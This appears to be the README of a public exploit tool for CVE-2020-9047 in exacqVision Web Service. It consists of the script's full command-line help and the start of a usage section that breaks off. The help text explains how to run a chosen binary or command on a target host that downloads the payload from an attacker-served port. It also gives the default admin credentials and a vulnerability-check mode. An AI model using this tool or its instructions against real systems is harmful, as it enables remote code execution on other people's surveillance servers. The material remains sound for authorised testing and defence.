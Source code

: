 ```
usage: CVE-2020-9047.py [-h] [-p RPORT] [-s LPORT] [--command] [-d WEBDIR]
                        [-U USERNAME] [-P PASSWORD]
                        {WINDOWS,LINUX,CHECK} RHOST LHOST PAYLOAD

Exploit for exacqVision Web Service as outlined in CVE-2020-9047. This program
targets Windows and Linux x86 installations of exacqVision Web Service
versions 3.8.2.67295 - 20.06.3.0. Written by Michael W. Norris.

positional arguments:
  {WINDOWS,LINUX,CHECK}
                        The target operating system. Provide "WINDOWS" for
                        Windows, "LINUX" for Linux, or "CHECK" to have this
                        program perform a check. When using "CHECK", '' can be
                        provided for the LHOST and PAYLOAD arguments.
  RHOST                 The IP address of the remote host; the IP address of
                        the target.
  LHOST                 The local IP address that will serve the payload for
                        the remote host. This should not be "localhost" or
                        "127.0.0.1". The remote host will need to be able to
                        connect to the provided IP address. This program
                        should be run on the system with the specified IP
                        address.
  PAYLOAD               The absolute file path of an existing Windows
                        executable (.exe) or Linux binary file on the local
                        system. The binary will be executed on the remote
                        host. If the --command flag is set and "LINUX" was
                        provided as the TARGET argument, enter a command that
                        will be executed on the remote host.

optional arguments:
  -h, --help            show this help message and exit
  -p RPORT              The port on the remote host where exacqVision Web
                        Service is running. Default: 80
  -s LPORT              The local port that will be used to serve the payload
                        file for the remote host. Default: 8000
  --command             Sets the command flag. The flag allows for a command
                        to be provided as the PAYLOAD argument instead of a
                        file path to a binary. The provided command will be
                        executed on the remote host. The flag should be set
                        only if "LINUX" was provided as the TARGET argument.
  -d WEBDIR             The local existing directory where a randomly named
                        temporary directory will be created. Default: /tmp
  -U USERNAME           The username for authenticating to the remote
                        exacqVision Web Service application. Default: admin
  -P PASSWORD           The password for authenticating to the remote
                        exacqVision Web Service application. Default: admin256
```

### Usage Example I: System Check
To check whether a system is vulnerable to CVE-2020-9047 as well as susceptible to this exploit and/or to fingerprint the remote host's operating system/architecture, use the following command syntax. In this example, the remote host is 10.0.0.22 (`RHOST`).
